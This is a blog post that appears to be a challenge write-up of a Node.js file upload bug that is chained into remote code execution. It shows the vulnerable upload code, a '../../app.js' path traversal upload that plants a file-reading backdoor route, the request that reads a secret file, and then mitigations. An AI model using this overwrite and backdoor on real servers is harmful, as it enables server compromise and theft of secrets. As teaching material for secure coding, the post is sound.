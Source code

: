 ```yaml
---
layout: post
title: Node.js Arbitrary File Upload to RCE – AppSec Master Challenge Writeup
categories: code-review
tags:
  - nodejs
  - file-upload
  - path-traversal
  - rce
  - challenge
image: https://www.appsecmaster.net/assets/appLogo.svg
pin: false
comments: true
toc: true
---
```


# Node.js Arbitrary File Upload to RCE Challenge Writeup

## Challenge Overview
This challenge involved exploiting a vulnerable Node.js application with an insecure file upload endpoint. The vulnerability chain allowed path traversal through file upload, leading to arbitrary file overwrite and ultimately remote code execution.

## Vulnerability Analysis

### 1. Vulnerable File Upload Endpoint
The application had an unprotected `/upload` endpoint that accepted base64-encoded files:

```javascript
app.post('/upload', (req, res) => {
    const { filename, data } = req.body;
    const uploadPath = __dirname + '/uploads/' + filename;
    const fileData = data.split(',')[1];
    fs.createWriteStream(uploadPath).write(Buffer.from(fileData, 'base64'));
});
```

Key issues:
- No authentication check (added later in the full code)
- No filename sanitization
- Direct filesystem write without validation

### 2. Path Traversal Vulnerability
The application didn't sanitize the `filename` parameter, allowing directory traversal sequences (`../`):

```javascript
// Attack vector example
{
    "filename": "../../app.js",
    "data": "data:text/plain;base64,...malicious code..."
}
```

### 3. Arbitrary File Overwrite
By combining these flaws, we could overwrite critical application files like `app.js` itself.

## Exploitation Steps

### Step 1: Craft Malicious Payload
Created a modified `app.js` that adds a new route to read arbitrary files:

```javascript
app.get('/readfile', (req, res) => {
    const target = req.query.path;
    if (!target || typeof target !== 'string') {
        return res.status(400).send('Missing path param');
    }
    try {
        const filePath = path.resolve('/', target);
        const data = fs.readFileSync(filePath, 'utf8');
        res.set('Content-Type', 'text/plain');
        res.send(data);
    } catch (err) {
        res.status(500).send('Failed to read file: ' + err.message);
    }
});
```

### Step 2: Encode and Upload
Base64-encoded the malicious file and uploaded it with path traversal:

```http
POST /upload HTTP/1.1
Content-Type: application/json

{
    "filename": "../../app.js",
    "data": "data:text/plain;base64,...base64 encoded malicious app.js..."
}
```

### Step 3: Trigger the Backdoor
After successful upload, accessed the new endpoint to read sensitive files:

```http
GET /readfile?path=tmp/masterkey.txt HTTP/1.1
```

## Impact
This vulnerability chain allowed:
1. Complete server compromise through arbitrary code execution
2. Reading sensitive server files (passwords, configs, etc.)
3. Potential privilege escalation
4. Persistent backdoor installation

## Mitigation Strategies

1. **Sanitize Filenames**:
```javascript
const sanitizedFilename = path.basename(filename);
```

2. **Validate Upload Path**:
```javascript
const uploadDir = path.resolve(__dirname, 'uploads');
const uploadPath = path.join(uploadDir, filename);
if (!uploadPath.startsWith(uploadDir)) {
    return res.status(403).send('Invalid path');
}
```

3. **Implement Authentication**:
```javascript
app.post('/upload', requireAuth, (req, res) => { ... });
```

4. **Restrict File Types**:
```javascript
const allowedExtensions = ['.jpg', '.png'];
if (!allowedExtensions.includes(path.extname(filename))) {
    return res.status(400).send('Invalid file type');
}
```

5. **Use Secure File Upload Libraries**:
Consider using dedicated libraries like `multer` with proper configuration.

## Conclusion
This challenge demonstrated how seemingly minor vulnerabilities (unsanitized inputs) can lead to complete system compromise when chained together. Proper input validation and secure coding practices are essential for file upload functionality.

---

If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)
